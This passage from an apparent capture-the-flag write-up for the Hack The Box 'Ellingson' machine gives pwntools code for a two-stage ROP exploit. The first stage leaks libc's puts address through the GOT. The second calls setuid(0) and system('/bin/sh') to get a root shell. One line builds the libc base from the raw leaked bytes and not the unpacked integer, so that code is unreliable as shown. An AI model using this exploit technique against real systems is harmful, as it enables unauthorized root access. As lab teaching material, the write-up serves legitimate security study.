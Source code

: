 <p>So far so good, let's start adding the ROP section. Our initial effort is to call <code>puts()</code> and leak the address. We find a <code>pop rdi,ret</code> gadget then add libc's <code>puts</code> address from the <i>global offset table</i> to the stack, then call <code>puts()</code> to print the address. Finally we call the <i>main</i> function to loop the execution flow back and avoid having the binary break.</p>

{% highlight python %}
#ROP Chain designed to leak libc address
rop.search(regs=['rdi'], order='regs')
rop.puts(garbage.got['puts'])
#Recall main once overflowed
rop.call(garbage.symbols['main'])
print "ROP Chain:\n{}".format(rop.dump())

payload = junk + str(rop)
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-ellingson/garbage-pwnlib-rop.PNG' | relative_url }}">
</p>

<p>Perfect. Now let's see if we can print out the address and run it a few times to see it in action.</p>

{% highlight python %}
payload = junk + str(rop)
p.recvuntil('password:')
p.sendline(payload)
leak = p.recvuntil('denied.')
leaked_puts_address_in_libc = p.recv()[:8].strip().ljust(8, "\x00")

libcaddr = u64(leaked_puts_address_in_libc)
print("LIBC Puts() address {}".format(hex(libcaddr)))
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-ellingson/garbage-pwnlib-rop-libcaddr.PNG' | relative_url }}">
</p>

<p>Great! Now that we have the offsetted <code>puts()</code> address we can come up with our second ROP chain, this time hopefully to execute <code>system()</code> and pop our root shell.</p>

{% highlight python %}
#Add ROP to execute system(/bin/bash) as uid=0
#based on the leaked libc addresses
libc.address = leaked_puts_address_in_libc - libc.symbols['puts']
print("LIBC Main address {}".format(hex(libc.address)))

rop2 = ROP(libc)
rop2.setuid(0x0)
rop2.system(next(libc.search('/bin/sh\x00')))
print "ROP Chain:\n{}".format(rop2.dump())

#Format the second payload
payload = junk + str(rop2)
p.sendline(payload)
p.recvuntil('denied.')
p.interactive()
{% endhighlight %}
